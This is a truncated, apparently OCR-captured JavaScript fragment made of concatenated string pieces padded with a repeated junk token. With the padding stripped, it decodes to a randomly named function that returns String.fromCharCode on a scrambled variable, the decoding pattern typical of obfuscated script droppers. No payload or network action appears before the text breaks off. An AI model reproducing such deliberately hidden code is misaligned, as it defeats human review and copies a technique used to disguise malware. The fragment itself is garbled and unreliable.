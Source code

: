 ```javascript
'rGJpWSFwRVsYtUhiOuBNMecoDlnXPECSeGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CaGJpWS'+
'FwRVsYtUhiOuBNMecoDln'+
'XPECgGJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPECLGJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPE'+
'CWGJpW'+
'SFwRVsY'+
'tUhiOuBNMecoDlnXPECBGJpWSFwRVsYtUhiOuBNMecoDlnXPECKGJpWSFwRVsYtUhiOuBNMecoDlnXPECVGJpWSFwRVsYtUhiOuBNMecoDlnXPECzokGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECRGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECGGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPEC"); GJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPEC} GJpW'+
'SFw'+
'RVsYtUhiOuBNMecoDlnXPECfGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECuGJpWSFwRVsYt'+
'UhiOuBNMecoDlnX'+
'PECnGJpWSF'+
'wRVsY'+
'tUhiOuBNMecoDlnXPECcG'+
'JpWSFwRVsYtUhiOuBNMecoDl'+
'nXPECtGJpWSFwRVs'+
'YtUhiOuBNMec'+
'oDlnX'+
'PECiGJpWSFwRVsYtUhiOuBNMecoDlnXPEConGJpWSFwRVsYtUhiOuBNMecoDlnXPEC TbGJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPECGEGJpWSFwRVsYtUhiOuBNMecoDlnXPECHGJpWSFwRVsYtUhiOuBNMecoDlnXPECC'+
'tGJpWSFwRVsYtUhiOuBNMecoDlnXPECKwGJpWSFwRVsYtUhiOuBNMecoDlnXPECIhYaMGJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPECQ(e'+
'GJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECPpFGJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPECRIGJpWSFwRVsYtUhiOuBNMecoDlnXPECrGJpWSFwRVsYtUhiOu'+
'BNMecoDlnXPECcGJpWSFwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnX'+
'PECgjHGJpWSFwRVsYtUhiOuBNMecoDlnXPECBGJpWSFwRVsYtUhiOuBNMecoDlnXPEClGJpWSFwRVsYtUhiOuBNMecoDlnXPECxGMGJpWSFwRVsYtUhiO'+
'uBNMe'+
'coDlnXPEC)GJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPEC {GJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPEC retGJpWSFwRVsYtUhiOuBNMecoDlnXPECu'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPEC'+
'rGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECn'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPEC GJpWSFwRVsYt'+
'UhiO'+
'uBNMecoDlnXPECStrGJpWSFwRVsYtUhiOuBNMecoDlnXPECing.frGJpWSFwRVsYtUhiOuBNMecoDlnXPECoGJpWSFwRVsYtUhiOuBNM'+
'ecoDln'+
'XPECmChGJpWSFwRVsYtUhiOuBNMecoDlnXPECaGJpWSFw'+
'RVsYtUhiOuBNMecoDl'+
'nXPECrGJpWSFwRVsYtUhiOuBNMecoDlnXPECCoGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECdGJpWSFwRVsYt'+
'UhiOuBNMecoDlnXPECeGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPEC(GJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXPECPpGJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPECFRIrGJpWSFwRVsYtUhiOuBNMecoDlnXPECcG'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECgGJpWSFwRVsYtU'+
'hi'+
'OuBNMecoDlnXPECjGJpWSFwRVsYtUhiOuBNMecoDlnXPECHBlxGJp'+
'WSFwRVsY'+
'tUhiOuBNMec'+
'oDlnXPECG'+
'MGJpWSFwRVsY'+
```